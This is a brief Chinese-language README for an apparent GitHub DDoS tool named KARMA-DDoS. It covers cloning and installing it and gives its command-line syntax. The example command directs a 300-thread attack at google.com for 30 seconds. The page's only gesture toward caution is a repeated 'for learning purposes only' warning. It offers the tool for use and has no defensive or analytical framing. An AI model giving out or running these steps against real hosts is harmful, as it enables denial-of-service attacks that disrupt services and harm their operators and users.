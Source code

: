 ## **项目地址**
[https://github.com/HyukIsBack/KARMA-DDoS](url)

> [!CAUTION 警告]
> Resources are for learning purposes only 资源仅供学习使用

## **安装项目**
_1. 克隆项目_
```shell
git clone https://github.com/HyukIsBack/KARMA-DDoS
```
_2.打开项目_
```shell
cd KARMA-DDoS
```
_3.安装依赖_
```shell
python3 setup.py
```

## **使用方法**
_1. 命令行_
```c
python3 main.py <攻击方式> <目标> <攻击线程> <攻击时间(秒)>
```
_2.例子_
```python
python3 main.py soc https://google.com 300 30
##使用 soc攻击方式 攻击google.com 使用300个线程 持续30秒##
```

> [!CAUTION 警告]
> Resources are for learning purposes only 资源仅供学习使用